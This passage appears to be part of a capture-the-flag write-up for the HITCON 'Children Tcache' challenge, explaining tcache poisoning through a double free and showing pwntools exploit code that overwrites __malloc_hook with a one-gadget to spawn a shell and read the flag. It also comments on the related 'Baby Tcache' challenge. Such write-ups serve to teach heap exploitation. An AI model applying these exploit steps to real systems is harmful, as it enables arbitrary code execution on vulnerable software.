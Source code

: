 ## Tcache poisoning

After leaking the libc base, we can perform a tcache poisoning attack. Put simply, we trick `malloc` into returning a pointer to an arbitrary address, in this case `__malloc_hook`. By overwriting it with a shell gadget, we make the next `malloc` invocation spawn a shell.

Obtaining arbitrary pointers from smallbins is generally quite difficult and requires forging fake chunks. Luckily for us, `glibc` developers like their code fast, not secure, resulting in a complete lack of checks in the tcache implementation.

Each tcache bin is a singly linked list (of length 7 at most), with `tcache_entry::next` residing where `free_chunk::fd` would be in a free smallbin chunk. By overwriting this address and leveraging a double free (using the split remainder chunk, which starts at the same point as `B`), we can put arbitrary data in the list and have it returned later.

```python
MALLOC_HOOK = 0x003ebc30

# obtain B from malloc again, into slot 2
new(SIZE_B, 'doubler')

delete(0) # free B
delete(2) # free it again. B->next now loops to itself

# allocate B and store the address of __malloc_hook in B->next
new(SIZE_B, p64(libc_base + MALLOC_HOOK))
new(SIZE_B, 'whatever') # now tcache->bins[idx_b] is __malloc_hook :D
```

## Shell

Finally, the poisoned tcache will give us `&__malloc_hook` as a new chunk, which we can overwrite with a gadget.

```python
# ------------------ ONE GADGET -------------------
OG = 0x4f322 # execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
new(SIZE_B, p64(libc_base + OG))

t.sendlineafter('choice: ', '1')
t.sendlineafter('Size:', '1337') # trigger malloc

t.sendline('cat /home/children_tcache/flag') # <3
t.interactive()
````

> hitcon{l4st_rem41nd3r_1s_v3ry_us3ful}

## Baby?

I mentioned in the beginning that __Baby Tcache__ is very similar. Indeed, the only differences are that `show` doesn't exist and that for reading user data into new chunks `read` is used instead of `strcpy` (also, `buf[size]` is always zeroed, but it doesn't matter too much). The former means that to do anything useful we probably have to do a partial overwrite of an existing libc pointer. The latter means that we can read in null bytes and perform partial overwrites! So it seems the plan could work. The existing exploit largely works with some small changes - exercise for you :) - until the leak part. My idea was to similarly use a pointer to `main_arena` and partially overwrite it into a `__malloc_hook` address. Unfortunately, when allocating `B` in my PoC, `malloc` clears the first qword, zeroing the precious pointer. I tried to work around this, but ran out of time - so I'm hoping for writeups from teams who did solve it!
